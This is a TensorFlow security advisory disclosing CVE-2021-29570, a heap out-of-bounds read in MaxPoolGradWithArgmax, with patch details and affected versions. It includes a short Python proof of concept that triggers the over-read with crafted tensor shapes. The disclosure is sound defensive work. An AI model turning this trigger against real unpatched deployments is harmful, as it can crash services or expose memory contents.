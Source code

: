 ## TFSA-2021-057: Heap out of bounds read in `MaxPoolGradWithArgmax`

### CVE Number
CVE-2021-29570

### Impact
The implementation of `tf.raw_ops.MaxPoolGradWithArgmax` can cause reads outside
of bounds of heap allocated data if attacker supplies specially crafted inputs:

```python
import tensorflow as tf

input = tf.constant([10.0, 10.0, 10.0], shape=[1, 1, 3, 1], dtype=tf.float32)
grad = tf.constant([10.0, 10.0, 10.0, 10.0], shape=[1, 1, 1, 4], dtype=tf.float32)
argmax = tf.constant([1], shape=[1], dtype=tf.int64)
ksize = [1, 1, 1, 1]
strides = [1, 1, 1, 1]

tf.raw_ops.MaxPoolGradWithArgmax(
  input=input, grad=grad, argmax=argmax, ksize=ksize, strides=strides,
  padding='SAME', include_batch_in_index=False)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/ef0c008ee84bad91ec6725ddc42091e19a30cf0e/tensorflow/core/kernels/maxpooling_op.cc#L1016-L1017)
uses the same value to index in two different arrays but there is no guarantee
that the sizes are identical.

### Patches
We have patched the issue in GitHub commit
[dcd7867de0fea4b72a2b34bd41eb74548dc23886](https://github.com/tensorflow/tensorflow/commit/dcd7867de0fea4b72a2b34bd41eb74548dc23886).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
